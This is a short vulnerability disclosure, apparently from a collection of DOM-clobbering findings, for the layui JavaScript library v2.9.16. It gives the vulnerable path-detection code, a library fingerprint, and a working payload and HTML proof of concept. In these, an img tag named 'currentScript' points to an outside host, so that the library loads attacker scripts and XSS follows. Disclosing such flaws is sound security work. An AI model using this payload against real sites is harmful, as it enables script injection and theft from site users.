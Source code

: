 ## layui

### Meta

+ Library: layui
+ Stars: 29.5K
+ Version: v2.9.16
+ Fingerprint: `window.LAYUI_GLOBAL  !== undefined`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Security Policy: Requested
+ Foundby: TheHulk

### Library

https://github.com/layui/layui

### Vulnerable Code Snippet

```javascript
var doc = win.document;
  var config = {
    modules: {}, // 模块物理路径
    status: {}, // 模块加载状态
    timeout: 10, // 符合规范的模块请求最长等待秒数
    event: {} // 模块自定义事件
  };

  var Layui = function(){
    this.v = '2.9.16'; // Layui 版本号
  };

  // 识别预先可能定义的指定全局对象
  var GLOBAL = win.LAYUI_GLOBAL || {};

  // 获取 layui 所在目录
  var getPath = function(){
    var jsPath = doc.currentScript ? doc.currentScript.src : function(){
      var js = doc.scripts;
      var last = js.length - 1;
      var src;
      for(var i = last; i > 0; i--){
        if(js[i].readyState === 'interactive'){
          src = js[i].src;
          break;
        }
      }
      return src || js[last].src;
    }();

    return config.dir = GLOBAL.dir || jsPath.substring(0, jsPath.lastIndexOf('/') + 1);
  }();
```

## PoC

```html
<!--Library-->
<link href="./layui.css" rel="stylesheet" />
<script src="./layui.js"></script>
<script>
  // Usage
  layui.use(function () {
    var layer = layui.layer;
    // Welcome
    layer.msg("Hello World", { icon: 6 });
  });
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```